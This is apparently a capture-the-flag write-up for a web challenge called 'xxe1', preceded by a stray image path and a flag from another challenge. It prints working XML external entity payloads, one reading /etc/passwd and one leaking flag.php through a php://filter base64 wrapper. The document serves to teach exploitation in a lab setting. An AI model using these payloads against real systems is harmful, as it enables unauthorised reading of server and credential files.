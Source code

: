 flag: ```BFS{4n_1m4g3_79_w0r7h_a_7h0u54nd_w0rd5}```

# xxe1

## What it is

A website with an input field.

The message is sent to the server in the form of an xml (base64 + URI encoded).

The decoded xml looks like this:
```xml
<?xml version="1.0"?>
<document>
	<message>abc</message>
</document>
```

It returns a message like this:
```
Thanks for your message: 'abc'
```

In the source of the page we can see:
```html

```

## Solution

(see solve.js)

https://portswigger.net/web-security/xxe
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file

We can use some xml features to retrieve external entities from the server.

For example:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<document>
	<message>&xxe;</message>
</document>
```

```file://``` will not work for ```flag.php``` because it will be interpreted by php, we can use ```php://filter/convert.base64-encode/resource=``` instead (see ssti1).

The final payload looks like this:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=flag.php"> ]>
<document>
	<message>&xxe;</message>
</document>
```
